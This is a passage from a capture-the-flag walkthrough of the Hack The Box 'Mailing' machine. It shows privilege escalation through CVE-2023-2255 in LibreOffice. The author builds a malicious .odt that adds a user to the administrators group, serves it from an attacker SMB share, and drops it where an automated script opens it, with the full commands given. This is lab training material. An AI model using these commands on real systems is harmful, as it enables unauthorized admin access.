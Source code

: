The script automates the process of opening all OpenDocument Text files (`*.odt`) located in the specified directory.

Going back to the LibreOffice version we find a PoC [here](https://github.com/elweth-sec/CVE-2023-2255) for [CVE-2023-2255](https://www.libreoffice.org/about-us/security/advisories/cve-2023-2255/).

Knowing that `.odt` files are automatically opened when placed in a certain directory, we can craft a malicious file that will execute commands when opened. We will create a file to add `maya` to the adminstrators group. 

We don't find the usual `Administrators` directory in `C:\Users`, instead we have a user called `localadmin`. With `net user localadmin` we confirm that it is part of the administrators group called `Administradores` in this case.

![localadmin membership](/images/HTB-Mailing/localadmin-memberships.png)

```
git clone https://github.com/elweth-sec/CVE-2023-2255

python3 CVE-2023-2255.py --cmd 'net localgroup Administradores maya /add' --output 'exploit.odt'
```

![Malicious odt file](/images/HTB-Mailing/malicious_odt_file.png)

The malicious odt file is sent to the target using a SMB server but after placing it in `C:\Users\Public\Documents` nothing happened.

> After scratching my head for a long time I noticed another interesting directory.

We find a directory called `Important Documents` in `C:\`, checking its permissions we notice that members of the `Administradores` group have full control `(F)` permissions on the directory. Moreover Maya has modify `(M)` permissions on it too.

![Important Documents directory permissions](/images/HTB-Mailing/folder-permissions.png)

So let's place our malicious file there.

1. Start a SMB server 

```
impacket-smbserver mailing `pwd` -smb2support
```

2. Connect to the SMB server with user maya

```
net use \\MY_IP\mailing
```

3. Move into `C:\Important Documents` and download the malicious file

```
cd 'Important Documents'
copy \\MY_IP\mailing\exploit.odt
```

4. Wait a little bit then confirms that Maya is now part of the `Administradores` group with `net user maya`.
